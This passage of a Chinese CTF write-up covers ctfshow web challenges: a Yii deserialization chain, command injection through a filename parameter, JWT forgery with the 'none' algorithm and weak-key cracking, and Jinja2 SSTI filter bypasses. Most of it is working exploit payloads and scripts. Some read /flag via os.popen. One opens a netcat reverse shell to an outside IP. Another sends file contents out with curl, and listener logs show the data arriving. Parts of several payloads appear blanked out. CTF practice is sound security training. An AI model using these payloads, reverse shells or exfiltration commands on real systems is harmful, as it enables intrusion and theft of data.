    class BatchQueryResult{
        private $_dataReader;

        public function __construct(){
            $this->_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult));
}
?>
```

本来这题想先留着，但发现后面的都是框架题了，那就开始看视频挖链子吧(反转了，视频也没挖，那就看网上挖链子的WP吧)

也不知道群主怎么过滤了一下，链子怎么都打不通，不想写了
写下一题的时候发现url是`?r=backdoor/shell&code=xxxx`无语了....
感觉出题的时候有些问题，简直在考linux操作命令了(而且还有些php特性)

最后上面的payload成功的写进了马(双引号包着，还有转义)
后面的几题都是些不用脑子的链子题，先放着吧


### web275


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-08 19:13:36
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-08 20:08:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

class filter{
    public $filename;
    public $filecontent;
    public $evilfile=false;

    public function __construct($f,$fn){
        $this->filename=$f;
        $this->filecontent=$fn;
    }
    public function checkevil(){
        if(preg_match('/php|\.\./i', $this->filename)){
            $this->evilfile=true;
        }
        if(preg_match('/flag/i', $this->filecontent)){
            $this->evilfile=true;
        }
        return $this->evilfile;
    }
    public function __destruct(){
        if($this->evilfile){
            system('rm '.$this->filename);
        }
    }
}

if(isset($_GET['fn'])){
    $content = file_get_contents('php://input');
    $f = new filter($_GET['fn'],$content);
    if($f->checkevil()===false){
        file_put_contents($_GET['fn'], $content);
        copy($_GET['fn'],md5(mt_rand()).'.txt');
        unlink($_SERVER['DOCUMENT_ROOT'].'/'.$_GET['fn']);
        echo 'work done';
    }
    
}else{
    echo 'where is flag?';
}
```

仔细看了代码，就发了两处可以利用的地方

第一个地方就是类函数里面的**__destruct**里面的system，这里很明显的**system**，虽然有个rm，但是可以用分号结束，所以只需满足那个if就好了

第二个地方也是一个危险函数`file_put_contents`，但是仔细看一下**flag和php**都被过滤了，但可以尝试一下**phtml**

#### first

直接

```php
GET:?fn=;ls;
POST:flag=123
```

成功，接下来看flag就好了

#### second


写了之后访问依然是源码，没反应，应该是没创建文件的权限吧？

本地试成功了，确实是没给权限


## jwt


**ctfshow的学习近期有些停滞，开启新章节！**

### JWT

#### 介绍

jwt(JSON Web Token)是一串json格式的字符串，由服务端用加密算法对信息签名来保证其完整性和不可伪造。Token里可以包含所有必要信息，这样服务端就无需保存任何关于用户或会话的信息，JWT可用于身份认证、会话状态维持、信息交换等。它的出现是为了在网络应用环境间传递声明而执行的一种基于JSON的开放标准（[(RFC 7519](https://link.zhihu.com/?target=https%3A//link.jianshu.com/%3Ft%3Dhttps%3A//tools.ietf.org/html/rfc7519)).该token被设计为紧凑且安全的，特别适用于分布式站点的单点登录（SSO）场景。

一个jwt token由三部分组成，header、payload与signature，以点隔开，形如`aaaa.bbbb.cccc`。

一个具体的例子：

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoidXNlciJ9XQ
```

- header用来声明token的类型和签名用的算法等，需要经过Base64Url编码。比如以上token的头部经过base64解码后为`{"alg":"HS256","typ":"JWT"}`

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
解码为 
{   
	"alg": "HS256",
    "typ": "JWT" 
}
alg属性表示签名的算法（algorithm），默认是 HMAC SHA256（写成 HS256）；
typ属性表示这个令牌（token）的类型（type），JWT 令牌统一写为JWT
```

- payload用来表示真正的token信息，也需要经过Base64Url编码。比如以上token的payload经过解码后为`{"sub":"1234567890","name":"John Doe","iat":1516239022}`

```
eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ 
解码为
 {   
 	"sub": "1234567890",  
	"name": "John Doe",
	"iat": 1516239022 
}
JWT 规定了7个官方字段，供选用
iss (issuer)：签发人
exp (expiration time)：过期时间
sub (subject)：主题
aud (audience)：受众
nbf (Not Before)：生效时间
iat (Issued At)：签发时间
jti (JWT ID)：编号
```

- signature，将前两部分用`alg`指定的算法加密，再经过Base64Url编码就是signature了，作用是防止数据篡改。

#### 解码

一般推荐去`http://jwt.io/`解码，拿上面这个例子

解密前

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoidXNlciJ9XQ
```

解密后

```
{
  "alg": "None",
  "typ": "jwt"
}
[
  {
    "sub": "user"
  }
]
```

#### JWT的安全问题

```
1.修改算法为none
2.修改算法从RS256到HS256
3.信息泄漏 密钥泄漏
4.爆破密钥
```

#### 存在的漏洞

- CVE-2015-9235 Alg：无攻击
- CVE-2016-5431密钥混淆攻击
- CVE-2018-0114密钥注入攻击 其他已知攻击
- JWKS欺骗
- “kid”注射
- 跨服务中继攻击
- 弱密钥

#### 参考文章

[从hfctf学习JWT伪造](https://zhuanlan.zhihu.com/p/134037462)

[JSON Web Token 入门教程](https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)

### web345


进入题目查看源码，发现`/admin`
访问后卡一段时间然后看cookie发现生成了jwt

`eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2NjE0MDUwMTAsImV4cCI6MTY2MTQxMjIxMCwibmJmIjoxNjYxNDA1MDEwLCJzdWIiOiJ1c2VyIiwianRpIjoiOTYzODNiMTIzNjcyZGY3MzFiOTIwYjczYTUxMWM2ZmUifV0`

将 . 后面的base64解码，然后把**user**改为**admin**，修改cookie，访问/admin/(建议用hackbar访问，因为刷新jwt就会改变)

最终jwt
`eyJhbGciOiJOb25lIiwidHlwIjoiand0In0AW3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2NjE0MDU0NTAsImV4cCI6MTY2MTQxMjY1MCwibmJmIjoxNjYxNDA1NDUwLCJzdWIiOiJhZG1pbiIsImp0aSI6IjQ0NWUyZjJhYmZjYTZkMGU2MzM0ZjNhNTM1ZmI5ZDMxIn1d`
最终是在hackbar里的base64解码得到的cookie，不带**.** 其他python或者网站解的都不行....

可能是群主犯了个小错误吧


### web346


同样的jwt，只不过这次有了签名认证
绕过签名认证的两种办法

#### 1.将加密算法改为none

有些后端检验不会看加密算法，如果你的加密算法为none，就直接当作没有签名

```python
from email import header
import jwt
import datetime

#自己组织payload
payload = {
  "iss": "admin",
  "iat": 1661406700,
  "exp": 1661413900,
  "nbf": 1661406700,
  "sub": "admin",
  "jti": "282b27fef64e866034166d4a5cdbafe6"
}
header={
  "alg": "none",
  "typ": "JWT"
}

jwt_token=jwt.encode(payload, #payload
                     "", #key
                     algorithm='none', #算法
                     headers=header #header
                     )
print(jwt_token)
```

#### 2.破解密钥

本题的密钥为123456，但jwtcracker破了好久都没出来~

### web347

也是弱口令，但不能通过改算法来绕过
密钥123456，得到flag~

### web348

题目提示了爆破，直接放出jwtcracker，秒出**aabb**

### web349

公私钥分别在public.key和private.key
拿到后解密即可

### web350

不太懂原理


## SSTI


### web361

```python
import requests
import time
import html

for i in range(0,300):
    payload="{{().__class__.__mro__[-1].__subclasses__()[%s]}}"%i
    url='http://2dde0f0d-c936-4016-a7d5-e0b1f71bd01c.challenge.ctf.show/?name='
    r=requests.get(url+payload)
    if "warnings.WarningMessage" in r.text:
        print(f'[+]:{i}')
        break
    print(f'[-]:{i}')
print('[+]done')

```

先用脚本跑出类所在的位置
然后直接ssti拿到flag

```python
{{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

### web362

用上题的payload先试试，返回
`:(`
很明显是有过滤了
稍微**fuzz**了一下，是过滤了`2和3`，那就意味着要换方法了
这个时候就想到`__builtins__`方法，存在于
`().__class__.__bases__[0].__subclasses__()[num].__init__.__globals__.keys()`

所以脚本稍微改改就能用

```python
import requests
import time
import html

for i in range(0,300):
    payload="{{().__class__.__mro__[-1].__subclasses__()[%s].__init__.__globals__.keys()}}"%i
    url='http://2dde0f0d-c936-4016-a7d5-e0b1f71bd01c.challenge.ctf.show/?name='
    r=requests.get(url+payload)
    #print(url+payload)
    print(f'[-]:{i}')
    if "__builtins__" in r.text:
        #print(r.text)
        print(f'[+]:{i}')
        break
print('[+]done')

[+]:80
[+]done

payload
{{().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
```

这种方法还有一种简单的利用方法，可以直接调用到`__builtins__`

```python
直接
{{x.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
or
{{x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
or
{{url_for.__globals__.os.popen('cat /flag').read()}} 这种方法的特点是不需要中括号
#遇到一题前面必须要是 url_for 不理解
or
{{x.__init__.__globals__.__getitem__('__builtins__').eval('__import__('os').popen('cat /flag').read()')}}
同上不需要中括号
or
{{lipsum.__globals__['os'].popen('cat /flag').read()}}
#也可用于得到__builtins__
```

### web363

同样先试试上题的payload，⑧行
**fuzz**之后发现引号被过滤了，貌似学到现在的直接执行都需要引号

那就<font color='red'>**绕！**</font>
在`{{}}`引用`request.args.x1`是以get得到x1(当然是字符串形式啦)


所以就可用这种方式传参来绕过所谓的`''`过滤

```python
payload
?name={{x.__init__.__globals__[request.args.x1].eval(request.args.x2)}}&x1=__builtins__&x2=__import__('os').popen('cat /flag').read()
```

或者在config里面找字符串用`__str__`来取出来

```python
{{(config.__str__()[2])%2B(config.__str__()[42])}}  <==>  'os'
```

也可以先把chr方法找出来，然后直接用chr

```python
?name={{ url_for.__globals__[chr(111)%2bchr(115)]}}
```


### web364

这题多过滤了`args`，用`request.values.x1`，GET和POST都接收

```python
payload
?name={{x.__init__.__globals__[request.values.x1].eval(request.values.x2)}}&x1=__builtins__&x2=__import__('os').popen('cat /flag').read()
```

或者`request.cookie.x1`

```py
payload
?name={{x.__init__.__globals__[request.cookies.x1].eval(request.cookies.x2)}}
cookie
x1=__builtins__
x2=__import__('os').popen('cat /flag').read()
```

### web365

过滤了`[]`，利用`{{x.__globals__.os.popen('cat /flag').read()}}`这种方法不需要中括号

```python
payload
?name={{url_for.__globals__.os.popen(request.cookies.x1).read()}} ???前面必须是url_for
cookie
x1=cat /flag

or
{{x.__init__.__globals__.__getitem__(request.cookies.x1).eval(request.cookies.x2)}}
cookie
x1=__builtins__ x2=__import__('os').popen('cat /flag').read()
```

### web366

过滤了很重要的 `_` 那么只能用**attr**绕过了

```py
payload
?name={{(x|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3))(request.values.x4).eval(request.values.x5)}}&x1=__init__&x2=__globals__&x3=__getitem__&x4=__builtins__&x5=__import__('os').popen('cat /flag').read()
注attr('__globals__') <==> .__globals__ 带小数点的！
```

### web367

上题payload可通

### web368

过滤了`{{ or }}`，可用``绕过，没回显加个**print**回显就好

```python
?name=&x1=__init__&x2=__globals__&x3=__getitem__&x4=__builtins__&x5=__import__('os').popen('cat /flag').read()

or

?name=&x1=__init__&x2=__globals__&x3=__getitem__&x4=__builtins__&x5=/flag%}
#与上一个其实差别不大

{{()|attr(request.values.x1)|attr(request.values.x2)|attr(request.values.x3)}}
```

或者盲注(有点麻烦)

```python
import requests
import string
url ='http://85302b44-c999-432c-8891-7ebdf703d6c0.chall.ctf.show/?name=1341'
s=string.digits+string.ascii_lowercase+"{-}"
flag=''
for i in range(1,43):
	print(i)
	for j in s:
		x=flag+j
		headers={'Cookie':'''x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=open('/flag').read({0});x6={1}'''.format(i,x)}
		r=requests.get(url,headers=headers)
		#print(r.text)
		if("1341" in r.text):
			flag=x
			print(flag)
			break

#与sql的盲注类似，相等就有回显1341，不相等就是hello
```

### web369

本题进一步将**request**给ban了，这里有一种办法就是自己拼接字符串
但是拼接一般要用到`__str__`，但下划线被ban了
或者用`config|string`转为字符串后用中括号或者`__gettitem__()`得到字符，但`[] _`都被ban了

想用config拼接唯一的办法就是转为**list**然后调用**list**的**pop**方法

> **pop**
>
> pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。
>
> 默认用法`list.pop([index=-1])`

```python
import requests
url="http://8315b48e-5f62-41d8-9903-19912c2963d2.challenge.ctf.show/?name={}"

payload="__globals__" #用脚本分别找出__globals__   os   cat /flag
result=""
for j in payload:
    for i in range(0,1000):
        r=requests.get(url=url.format(i))
        location=r.text.find("<h3>")
        word=r.text[location+4:location+5]
        if word==j.lower():
            print("(config|string|list).pop(%d).lower()  ==  %s"%(i,j))
            result+="(config|string|list).pop(%d).lower()~"%(i)
            break
print(result[:len(result)-1])

最终payload
?name={% print(lipsum|attr((config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower())).get((config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()).popen((config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()).read() %}

?name=
                                       👆 print是在这里结束的，让我有点迷，稍微记住吧
.get是得到该变量下面的属性
```

或者用yu神的字符串拼接

```python
http://ec6b99bb-953a-4e28-8962-084bda49c739.chall.ctf.show/
?name=
  
#这步相当于把po变成了pop,dict(po=a,p=a)|join是得到变量名连接后的字符串

 
#从<generator object select_or_reject at 0x7ff987fb6970>中得到下划线


#构造__init__


#构造__globals__


#构造__getitem__


#构造__builtins__


#把字符串连接并转为变量


#得到chr函数

{% set file=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}


  
 









tnirp
```

yu师傅还写了个盲注

```python
import requests
import string
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+str(ord(s[i]))+')%2b'
		else:
			t+='chr('+str(ord(s[i]))+')'
	return t
url ='''http://b134fd30-bddc-4302-8578-8005b96f73c2.chall.ctf.show/?name=







{% set cmd=chr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)%}
'+''+'1341'+''
		#print(u)
		r=requests.get(u)
		if("1341" in r.text):			
			flag=x
			print(flag)
			break

```

yu师傅还写了个反弹shell的(如果print被过滤了呢)

```python
http://da9612ac-2b66-485d-8149-b76a1f03d22c.chall.ctf.show/?name=









123


这个脚本来得到cmd
s='__import__("os").popen("nc 1.15.107.150 3296 -e /bin/sh").read()'
t=''
for i in range(len(s)):
	if i<len(s)-1:
		t+='chr('+str(ord(s[i]))+')%2b'
	else:
		t+='chr('+str(ord(s[i]))+')'
return t









{% set cmd=chr(95)%2bchr(95)%2bchr(105)%2bchr(109)%2bchr(112)%2bchr(111)%2bchr(114)%2bchr(116)%2bchr(95)%2bchr(95)%2bchr(40)%2bchr(34)%2bchr(111)%2bchr(115)%2bchr(34)%2bchr(41)%2bchr(46)%2bchr(112)%2bchr(111)%2bchr(112)%2bchr(101)%2bchr(110)%2bchr(40)%2bchr(34)%2bchr(110)%2bchr(99)%2bchr(32)%2bchr(49)%2bchr(46)%2bchr(49)%2bchr(53)%2bchr(46)%2bchr(49)%2bchr(48)%2bchr(55)%2bchr(46)%2bchr(49)%2bchr(53)%2bchr(48)%2bchr(32)%2bchr(51)%2bchr(50)%2bchr(57)%2bchr(54)%2bchr(32)%2bchr(45)%2bchr(101)%2bchr(32)%2bchr(47)%2bchr(98)%2bchr(105)%2bchr(110)%2bchr(47)%2bchr(115)%2bchr(104)%2bchr(34)%2bchr(41)%2bchr(46)%2bchr(114)%2bchr(101)%2bchr(97)%2bchr(100)%2bchr(40)%2bchr(41)%}

123

```


### web370

过滤了所有数字，所以在上题的基础上加一个得到数字的就好了

feng师傅的思路是用**index**来得到所有的数字

> **index**
>
> Python index() 方法检测字符串中是否包含子字符串 str ，如果指定 beg（开始） 和 end（结束） 范围，则检查是否包含在指定范围内，该方法与 python find()方法一样，只不过如果str不在 string中会报一个异常。
>
> `str.index(substring, beg=0, end=len(string))`
>
> 也就是说 `'abcde'.index(b)`就回显1，这样就可以得到所有的数字，但稍稍有点麻烦

而yu师傅则是用到了`length或者count`

```python

#这样c就是3了 换成lengtn也一样

#这样就可以得到任意数字啦，先拼接为字符串再转为int型
```

```python
http://ec6b99bb-953a-4e28-8962-084bda49c739.chall.ctf.show/
#在上题的基础上替换掉数字就好啦
?name=



















{% set file=chr((cccc~ccccccc)|int)%2bchr((cccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccc)|int)%}


前面分别是 1 2 3 4 5 6 7 8 9 10 后面就是随意拼接了
```

### web371

又多过滤了**print**，那就反弹shell咯

```py
?name=





















{% set cmd=chr((cccccccccc~cccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((ccccccccccc~cccccc)|int)%2bchr((ccccccccccc~cccccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((ccccc~c)|int)%2bchr((cccc~ccccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~cccccc)|int)%2bchr((cccc~ccccc)|int)%2bchr((ccccc~cc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccc~c)|int)%2bchr((cccc~ccccc)|int)%2bchr((cccccccccc~cccccccccc)|int)%2bchr((cccccccccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~ccccccccc)|int)%2bchr((cccc~ccc)|int)%2bchr((ccccccccccc~ccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccc~ccccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((cccccc~cccc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((ccccc~ccccccccc)|int)%2bchr((cccccc~cccccc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((cccccc~cccc)|int)%2bchr((ccccc~ccccccccc)|int)%2bchr((cccccc~ccccccccc)|int)%2bchr((cccccc~cc)|int)%2bchr((cccccc~c)|int)%2bchr((cccccc~cccccccc)|int)%2bchr((cccccc~ccccc)|int)%2bchr((ccccccc~cccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((ccccccc~cc)|int)%2bchr((cccccccccc~ccccccc)|int)%2bchr((cccccccccc~cccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccc~ccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccccccccc~ccc)|int)%2bchr((ccccccccccc~ccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccccc~cccc)|int)%2bchr((cccccccccc~ccccccc)|int)%2bchr((cccc~ccccc)|int)%2bchr((ccccc~cc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccccc~c)|int)%2bchr((ccccc~c)|int)%2bchr((ccccc~cc)|int)
%}

abc


#cmd用该脚本生成
def aaa(t):
	t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
	return t
s='__import__("os").popen("curl http://1.15.107.150:3296?p=`cat /flag`").read()'
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+aaa(str(ord(s[i])))+')%2b'
		else:
			t+='chr('+aaa(str(ord(s[i])))+')'
	return t
print(ccchr(s))
```

本题靶机环境好像并没有nc，用curl直接弹执行命令的回显一样的
本地仍然是`nc -lvvp 3296`

```shell
[root@VM-4-16-centos ~]# nc -lvvp 3296
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::3296
Ncat: Listening on 0.0.0.0:3296
Ncat: Connection from 49.235.148.38.
Ncat: Connection from 49.235.148.38:41212.
GET /?p=ctfshow40470b14-9ba8-403b-bbb7-0ad669b1ea93 HTTP/1.1
Host: 1.15.107.150:3296
User-Agent: curl/7.64.0
Accept: */*
```

### web372

在上题的基础上过滤了`count`，换成`length`就好啦

```shell
[root@VM-4-16-centos ~]# nc -lvvp 3296
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::3296
Ncat: Listening on 0.0.0.0:3296
Ncat: Connection from 49.235.148.38.
Ncat: Connection from 49.235.148.38:38538.
GET /?p=ctfshow55d97e13-7a18-4221-ab71-b8d38527cc49 HTTP/1.1
Host: 1.15.107.150:3296
User-Agent: curl/7.64.0
Accept: */*
```

yu神还介绍了一种用全角数字代替正常数字的办法，***tql。。。***

```py
def half2full(half):  
    full = ''  
    for ch in half:  
        if ord(ch) in range(33, 127):  
            ch = chr(ord(ch) + 0xfee0)  
        elif ord(ch) == 32:  
            ch = chr(0x3000)  
        else:  
            pass  
        full += ch  
    return full  
t=''
s="0123456789"
for i in s:
    t+='\''+half2full(i)+'\','
print(t)

'０','１','２','３','４','５','６','７','８','９',
```


### 参考博客

[yu22x](https://blog.csdn.net/miuzzx/article/details/112168039?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166201977016781647565661%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166201977016781647565661&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-112168039-null-null.nonecase&utm_term=ssti&spm=1018.2226.3001.4450)

[feng](https://blog.csdn.net/rfrder/article/details/113866139?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166204084816781647522619%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166204084816781647522619&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-113866139-null-null.nonecase&utm_term=ssti&spm=1018.2226.3001.4450)

[Monica](https://blog.csdn.net/qq_46918279/article/details/121270806?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166202057916781432986612%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=166202057916781432986612&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-121270806-null-null.142^v44^pc_rank_34_1&utm_term=ctfshow%20ssti&spm=1018.2226.3001.4187)
